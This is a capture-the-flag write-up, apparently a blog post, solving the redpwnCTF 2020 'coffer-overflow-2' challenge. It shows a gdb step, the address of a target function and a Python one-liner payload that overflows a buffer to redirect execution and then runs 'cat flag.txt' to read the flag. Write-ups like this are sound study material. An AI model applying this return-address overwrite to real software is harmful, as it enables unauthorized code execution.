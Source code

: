 ```yaml
---
layout: post
title: "coffer-overflow-2"
author: "vishalananth"
---
```


You'll have to jump to a function now!?

nc 2020.redpwnc.tf 31908

**Files**
- [coffer-overflow-2]({{site.baseurl}}/assets/coffer-overflow-2/coffer-overflow-2)

## Solution

Open the file in gdb with

```
gdb coffer-overflow-2
```

Test different payloads of different lengths. We find buffer flow at payload length of 25. We open the file with IDA Free Edition and locate
the address of the binFunction and see it is at ```0x00000000004006E6```. So we have to overflow the ip(Instruction Pointer) to this address. We can do that with the following payload

```
python -c "print 'a' * 24 + '\xe6\x06\x40\x00\x00\x00\x00\x00' + '\ncat flag.txt"
```

Giving this input, gets us the flag.
